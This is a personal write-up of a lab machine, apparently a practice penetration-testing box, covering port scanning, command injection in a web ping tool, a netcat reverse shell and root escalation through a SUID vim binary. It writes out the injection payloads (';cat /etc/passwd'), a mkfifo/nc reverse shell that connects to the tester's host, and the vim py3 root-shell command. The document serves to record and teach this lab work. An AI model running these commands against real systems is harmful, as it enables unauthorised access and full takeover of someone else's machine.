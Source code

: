 ```yaml
---
Alias: Shakabra
Date: 5/4/22
Platform: Linux
Difficulty: Easy
Tags:
Status: Finished
IP: 192.168.127.86
---
```


# {{Shakabra}}


# Resolution summary
- Text
- Text

## Improved skills
- Found adding a semi colon after a command will be treated a separate command the commands will be executed sequentially 

## Used tools
- nmap
- rustscan


---

# Information Gathering
Scanned all TCP ports:
```bash
rustscan --addresses 192.168.127.86 --ulimit 5000 -- -A -sC -Pn -sV -T 1500
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
0day was here ♥

[~] The config file is expected to be at "/home/brian/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 192.168.127.86:22
Open 192.168.127.86:80
[~] Starting Script(s)
[>] Running script "nmap -vvv -p {{port}} {{ip}} -A -sC -Pn -sV -T 1500" on ip 192.168.127.86
Depending on the complexity of the script, results may take some time to appear.
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
[~] Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-18 18:04 PDT
NSE: Loaded 155 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 18:04
Completed NSE at 18:04, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 18:04
Completed NSE at 18:04, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 18:04
Completed NSE at 18:04, 0.00s elapsed
Initiating Parallel DNS resolution of 1 host. at 18:04
Completed Parallel DNS resolution of 1 host. at 18:04, 0.01s elapsed
DNS resolution of 1 IPs took 0.01s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 18:04
Scanning 192.168.127.86 [2 ports]
Discovered open port 80/tcp on 192.168.127.86
Discovered open port 22/tcp on 192.168.127.86
Completed Connect Scan at 18:04, 30.08s elapsed (2 total ports)
Initiating Service scan at 18:04
Scanning 2 services on 192.168.127.86
Completed Service scan at 18:04, 6.34s elapsed (2 services on 1 host)
NSE: Script scanning 192.168.127.86.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 18:04
Completed NSE at 18:05, 4.86s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 18:05
Completed NSE at 18:05, 0.32s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 18:05
Completed NSE at 18:05, 0.00s elapsed
Nmap scan report for 192.168.127.86
Host is up, received user-set (0.081s latency).
Scanned at 2022-10-18 18:04:35 PDT for 26s

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 33:b9:6d:35:0b:c5:c4:5a:86:e0:26:10:95:48:77:82 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDKxggEEcOcfAnY39JxZPtqfSeoP5ELSTfKdMZW1gwC5cdbN+n+rNZtzEFPJtRQrUGYntWi9OI642XAYf/w7EYnahMudH6sEkBBnycJB9mpMznx6j2woFqEC99hV2Kv+HrKBfUVH2ZottNDMTAeHmAQn38urRKTSw5XRL2lIHyjAlQuhBC9G0IOHSQevab1JO7QMS7RinkKMuK471IKEiGo6cs2qYl7s5/mbPzn74ItxZyjMaNreraKLzxxUv2rXO4D1KLJGH8hoHCdoueHenF0jA4mggOLtx33gi/Dwj65GZqz3up/93Rk3KFx9PDH81Wl/RMXzJPHObWTXFUgYCPR
|   256 a8:0f:a7:73:83:02:c1:97:8c:25:ba:fe:a5:11:5f:74 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOmK6n2750Zgk5TzwOOVaORuM6X+mZvgnDZ089sXvhfp5r09499qYQzThIXcaOuWpDmzP2e/eK27h5teQUyF+Bw=
|   256 fc:e9:9f:fe:f9:e0:4d:2d:76:ee:ca:da:af:c3:39:9e (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINPPEuspoT6EYlb7TZCsDgkEBtBHIlzl8yu089UQJsA8
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 18:05
Completed NSE at 18:05, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 18:05
Completed NSE at 18:05, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 18:05
Completed NSE at 18:05, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 41.93 seconds

```

Enumerated open TCP ports:
```bash
80
22
```

Enumerated top 200 UDP ports:
```bash

```

---

# Enumeration
## Port 80 - Apache httpd 2.4.29

#### As port 80 was found to be open per nmap scan; I navigated to the boxes IP address and found the below webpage: 

![](Pasted%20image%2020221018181215.png)

#### As "127.0.0.1 was already populated in the "ping" bar I input "127.0.0.1" into it and clicked go and found the below ping results: 

![](Pasted%20image%2020221018181341.png)

#### I then typed ";cat /etc/passwd" (adding a semicolon at the end of 127.0.0.1) and found the below user "dylan" on the system: 

![](Pasted%20image%2020221018181441.png)
#Command_Injection 

#### Then typed "; which nc" and found the machine had nc installed:

![](Pasted%20image%2020221018181531.png)

![](Pasted%20image%2020221018181603.png)

---

# Exploitation
## Name of the technique
## Command injection from connection tester tool

#### I attempted to type the usual netcat one liner reverse shell syntax but didn't work. I then tried "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [kali IP] [Listener Port] >/tmp/f" found in "pentestmonkey.net" but had to modify it to the following in order to get it to work: "rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.53.200 80 >/tmp/f" (the modification I added was the "-f" after command "rm") 

#### Ran the syntax above on the connection tester tool and had a listener listening on my kali machine and received a reverse shell 

![](Pasted%20image%2020221018181728.png)

---

# Privilege Escalation
## Local Enumeration

#### Typed "find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null" to find SUID binaries and found the following "vim.basic" set as SUID bit: 
![](Pasted%20image%2020221018183948.png)


## Privilege Escalation vector
## VIM SUID Binary

#### Found "vim" in GTFOBins site and followed the instructions to run the binary and type colon to enter "enter command mode" and prepend py3 to the command as the machine only has python3 and typed ":py3 import os; os.exec("/bin/sh", "sh", "-pc", "reset; exec sh -p")" and then enter and then when asked "which terminal?" Enter "xterm" and then received a root shell: 

![](Pasted%20image%2020221018184110.png)

![](Pasted%20image%2020221018184146.png)

![](Pasted%20image%2020221018184222.png)
#VIMsuidBinary
---

